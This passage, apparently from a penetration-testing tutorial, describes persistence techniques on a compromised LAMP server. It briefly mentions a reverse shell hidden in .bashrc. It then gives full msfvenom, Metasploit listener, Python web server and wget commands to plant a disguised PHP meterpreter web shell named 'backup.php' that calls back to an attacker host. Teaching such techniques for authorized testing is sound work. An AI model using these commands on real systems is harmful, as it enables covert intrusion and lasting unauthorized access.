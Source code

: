     We have now been able to set up persistence via the .bashrc file, this technique has the added advantage of being harder to detect as the reverse shell command is hidden within a legitimate configuration file.

## Persistence Via Web Shell

This persistence technique involves generating and uploading a PHP web shell to the target server. Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor.

1. The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:

        msfvenom -p php/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -e php/base64 -f raw > backup.php

    In order to evade detection, we will save the payload with a filename of “backup.php”.

1. Once you have generated the payload, you will need to modify it by adding the PHP tags so that the script is executed correctly as shown in the following screenshot.

    ![backup.php exploit contents](backup-php-exploit-contents.png "backup.php exploit contents")

1. We can now set up the listener with Metasploit  by running the following commands:

        msfconsole
        use multi/handler
        set payload php/meterpreter/reverse_tcp
        set LHOST <KALI-IP>
        set LPORT <PORT>
        run

1. The next step will involve uploading the PHP shell that we just generated to the web server, this can be done by setting up a local web server on the Kali VM:

        sudo python -m SimpleHTTPServer 80

1. Then, download it on the target:

        wget http://<KALI-IP>/backup.php

    In this case, we will be uploading the “backup.php” file to the root of the webserver under the /var/www/html directory as shown in the following screenshot.
